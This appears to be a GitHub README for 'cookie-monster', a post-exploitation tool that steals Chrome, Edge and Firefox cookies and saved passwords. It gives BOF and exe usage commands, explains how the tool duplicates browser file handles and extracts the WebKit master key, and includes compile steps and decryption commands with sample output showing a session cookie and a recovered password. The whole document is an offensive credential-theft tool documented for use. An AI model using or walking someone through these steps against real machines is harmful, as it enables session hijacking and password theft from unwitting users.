 # cookie-monster
Steal browser cookies for edge, chrome and firefox through a BOF or exe! 
Cookie-Monster will extract the WebKit master key, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then fileless download the target.
Once the Cookies/Login Data file(s) are downloaded, the python decryption script can help extract those secrets!  

## BOF Usage
```
Usage: cookie-monster [ --chrome || --edge || --firefox || --chromeCookiePID <pid> || --chromeLoginDataPID <PID> || --edgeCookiePID <pid> || --edgeLoginDataPID <pid>] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## EXE usage
```
Cookie Monster Example:
  cookie-monster.exe --all 
Cookie Monster Options:
  -h, --help                     Show this help message and exit
  --all                          Run chrome, edge, and firefox methods
  --edge                         Extract edge keys and download Cookies/Login Data file to PWD
  --chrome                       Extract chrome keys and download Cookies/Login Data file to PWD
  --firefox                      Locate firefox key and Cookies, does not make a copy of either file
```
## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Base64 encode the webkit masterkey
``` 
python3 base64-encode.py "\xec\xfc...."
```

Decrypt Cookies File
```
python .\decrypt.py "XHh..." --cookies ChromeCookie.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Passwords File
```
python .\decrypt.py "XHh..." --passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

to compile exe on windows
```
gcc .\cookie-monster.c -o cookie-monster.exe -lshlwapi -lcrypt32
```

### TO-DO
- update decryption for firefox

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI

